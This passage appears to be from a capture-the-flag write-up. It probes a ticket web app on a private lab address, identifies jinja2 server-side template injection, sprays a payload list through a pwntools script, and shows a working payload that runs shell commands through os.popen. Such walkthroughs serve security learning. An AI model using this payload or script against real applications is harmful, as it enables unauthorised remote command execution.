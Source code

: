 ```
└─# curl "http://192.168.124.102:5000/?id=3718"                                                                                                                                                                                          1 ⨯

        <html>
            <head>
            </head>

            <body>
                <h4>idk</h4>
                <br>
                <b>Status</b>: open
                <br>
                <b>ID</b>: 3718
                <br>
                <h4> Description: </h4>
                <br>
                49
            </body>
             <footer>
              <p><strong>Sorry for the bright page, we are working on some beautiful CSS</strong></p>
             </footer> 
        </html>

```
I tried several language-specific payloads to identify the template engine and came to the conclusion that the engine is jinja2.

I downloaded a payload list and used this Python script to create tickets with the payloads:

```
from pwn import *

host, port = '192.168.124.102', 31337

s = remote(host, port)

s.recvuntil('username> ')
s.sendline('guest')

s.recvuntil('password> ')
s.sendline('guest')

with open('payloads.txt') as f:
	payloads = f.readlines()

for i, payload in enumerate(payloads):

	s.recvuntil('> ')
	s.sendline('open')

	s.recvuntil('Title: ')
	s.sendline('test{}'.format(i))

	s.recvuntil('Description: ')
	s.sendline('{}'.format(payload))

s.close()	
```
several payloads worked but this seemed the most convenient to use: `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`
